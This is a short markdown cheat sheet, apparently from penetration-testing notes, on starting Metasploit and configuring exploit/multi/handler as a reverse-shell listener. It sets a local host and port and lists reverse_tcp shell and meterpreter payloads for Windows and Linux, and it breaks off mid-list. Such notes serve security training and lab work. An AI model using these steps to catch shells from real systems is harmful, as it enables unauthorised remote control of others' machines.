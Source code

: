 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell
    * windows listener payload windows/shell/reverse\_tcp
    * linux listener payload payload linux/x86/shell/reverse\_tcp
  * meterpreter shell
    * windows listener payload windows/meterpreter/reverse\_tcp
    * linux listener payload linux

